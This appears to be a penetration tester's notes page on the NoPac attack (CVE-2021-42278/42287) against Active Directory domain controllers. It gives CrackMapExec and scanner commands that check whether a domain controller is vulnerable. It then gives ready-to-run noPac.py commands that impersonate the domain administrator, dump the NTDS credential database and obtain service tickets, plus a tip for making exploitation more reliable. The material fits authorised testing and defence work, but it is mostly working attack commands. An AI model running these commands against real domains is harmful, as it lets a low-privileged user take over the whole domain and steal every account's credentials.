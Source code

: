 # NoPac

The exploitation of both CVE-2021-42278 and CVE-2021-42287 allows for a standard domain user to impersonate a domain administrator, ultimately gaining full access to the domain.&#x20;

### Verification

Verifying if a domain controller is vulnerable to NoPac requires a valid domain user account. Additionally, your time will have to be synced with the domain controller if any issues are output when running validation with publicly available proof of concepts of CrackMapExec.&#x20;

```bash
# CrackMapExec
crackmapexec smb $host -u $user -p $password -M nopac

# https://github.com/Ridter/noPac
python scanner.py parzival.com/parzival:'1qaz@WSX' -dc-ip $dcip
```

### Exploitation

When attempting to exploit NoPac, I have found that updating `/etc/hosts` with the hostname of the domain controller often results in more reliable exploitation.

```bash
# https://github.com/Ridter/noPac
## Dump the NTDS from the Domain Controller (preferred exploitation action)
python noPac.py parzival.com/parzival:'1qaz@WSX' -dc-ip $dcip -dc-host $dcfqdn --impersonate administrator -dump

## Get Service Ticket
python noPac.py parzival.com/parzival:'1qaz@WSX' -dc-ip $dcip
```
